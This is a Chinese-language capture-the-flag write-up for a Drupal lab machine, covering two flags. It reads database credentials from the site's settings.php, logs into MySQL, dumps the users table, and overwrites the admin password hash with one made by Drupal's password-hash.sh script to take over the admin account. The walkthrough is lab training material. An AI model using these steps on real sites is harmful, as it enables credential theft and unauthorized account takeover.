 # 获取flag2
使用cat /var/www/sites/default/settings.php命令打开，获取到flag2.txt 以及数据库为mysql账户密码
![图片描述](https://static.cdnjs.cloud/20210808/image-1628384251471_522028805761.png)

翻译flag2提示
>蛮力和字典攻击不是获得访问权限的唯一方法（您将需要访问权限）。你可以用这些凭据做什么？


# 获取flag3
根据flag2中提示，我们使用数据库信息去进入数据库中拿后台的账号密码。

首先登录数据库搜索相关信息
```
mysql -udbuser -pR0ck3t
```
![图片描述](https://static.cdnjs.cloud/20210808/image-1628384494642_212725878396.png)

```
mysql>show databases;
mysql>use drupaldb;                # 使用drupaldb数据库
mysql>show tables;                 # 查看数据库内的表
查询到敏感表users
mysql>select * from users;
```
![图片描述](https://static.cdnjs.cloud/20210808/image-1628384668505_557707204595.png)
![图片描述](https://static.cdnjs.cloud/20210808/image-1628384699467_117381076330.png)
![图片描述](https://static.cdnjs.cloud/20210808/image-1628384737618_848584948376.png)
![图片描述](https://static.cdnjs.cloud/20210808/image-1628384767921_516492003285.png)

查看账户表发现密码经过特殊hash加密

![图片描述](https://static.cdnjs.cloud/20210808/image-1628384830599_95010090433.png)

发现两个用户，但密码都是加密的且不好破解，所以我们选择使用一个我们已知的密文把它覆盖掉
查到的资料表示：在Drupal 7的安装目录中的scripts目录下，有一些Drupal 7开发者准备好的PHP脚本，可以执行一些高级操作。其中有一个脚本名为：password-hash.sh，它的功能是传入一个密码（字符串），即返回加密后的密码字符串。
```
php scripts/password-hash.sh admin1 > pwd.txt
cat pwd.txt
```
![图片描述](https://static.cdnjs.cloud/20210808/image-1628385561525_483183204675.png)
修改密码
```
update users set pass="$S$D2sypG2KL6EjTo08zxDCAx4D3lcAQx7Tk.hydYvH/hEDiNfo2AHS" where name="admin";
```
![图片描述](https://static.cdnjs.cloud/20210808/image-1628385716185_162869471136.png)

使用admin admin1 登录后台 在Content中拿到flag3
![图片描述](https://static.cdnjs.cloud/20210808/image-1628385795373_220727027696.png)
